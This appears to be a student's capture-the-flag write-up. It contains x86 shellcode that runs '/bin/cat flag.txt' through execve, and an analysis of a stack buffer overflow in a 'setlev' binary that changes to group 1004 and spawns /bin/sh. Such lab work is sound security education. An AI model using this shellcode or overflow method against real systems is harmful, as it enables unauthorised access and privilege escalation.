 ```
    push eax
    push 0x7478742e     # "txt."
    push 0x67616c66     # "flag"
    mov ecx, esp
    
    # set up argv array (pointers to "/bin/cat" and "flag.txt", followed by NULL)
    push eax    # NULL for argv[2]
    push ecx    # Pointer to "flag.txt" (argv[1])
    push ebx    # Pointer to "/bin/cat" (argv[0])
    
    # ECX now points to the argv array: {"/bin/cat", "flag.txt", NULL}
    mov ecx, esp
    # EDX = envp = NULL (no environment variables)
    xor edx, edx
    
    # EBX should point to the filename ("/bin/cat")
    mov ebx, [ecx]
    # execve syscall number (11)
    mov eax, 0xb
    int 0x80
```



# Problem 4. CTF 2: SetLev
## Problem 4.a: Ownder of ``/home/setlev/flag.txt``
* owner: setlevflag
* permission: setlevflag (1004) and root

## Problem 4.b: Requirement to exploit
* to exploit ``setlev``, the shellcode must require the following operations:
    1. Identify buffer overflow
    2. overwrite return address of ``parseAndSet`` to redirect control flow to arbitrary attack code
    3. arbitrary attack shellcode contains two specific operations for exploitation in specific order written below:
        * Change group ID to setlevflag (1004)
        * Execute ``/bin/sh`` to get shell access
    4. Read the flag


## Problem 4.c: Reverse Engineer ``setlev``
* function of ``setlev``
    1. Receive command line argument form user (e.g., ./setlev --level=AAAA)
    2. Initialize 8 bytes character array in ``parseAndSet`` function
    3. overwrite each byte (character by character) of this variable with the character sequence of command line input until `\0` is met.
* vulnerability of ``setlev``
    * Overwriting on an initialized memory space of 8 bytes is continued until `\0` is met, instead of limiting the write to allocated memory size.
    * This causes buffer overflow, in which an attacker can overwrite on the address space where the return address of ``parseAndSet`` function resides, redirecting the control flow to arbitrary code.
